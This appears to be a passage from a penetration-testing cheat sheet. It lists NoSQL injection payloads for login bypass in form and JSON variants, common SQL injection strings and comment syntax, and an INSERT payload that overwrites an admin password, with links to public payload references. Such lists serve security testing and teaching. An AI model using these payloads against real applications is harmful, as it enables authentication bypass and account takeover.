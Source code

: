 ### Form
```
username[$ne]=lol$password[$ne]=lol
username[$regex]=.*$password[$regex]=.*
username[$eq]=admin&password[$eq]=admin
```

### JSON
```json
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$eq": "admin"}, "password": {"$ne": "admin"}}
{"username": {"$regex": ".*"}, "password": {"$regex": ".*"}}
```

- [PayloadsAllTheThings - NoSQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)

# SQL Injection
> SQL injection (SQLi) is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database.
> It generally allows an attacker to view data that they are not normally able to retrieve. - [Source](https://portswigger.net/web-security/sql-injection)


Interesting [cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) of Port Swigger.

## Manual
### Common pattern
```
" OR ""="
' OR ''='
' OR 1=1 -- comment
OR 1=1
*
```

### Comment
```
-- comment
# comment
/* comment */
/*! comment */
```

### INSERT
```
admin", "") ON DUPLICATE KEY UPDATE password="newpasswd";
```
- [INSERT DUPLICATE KEY](https://mariadb.com/kb/en/insert-on-duplicate-key-update/)
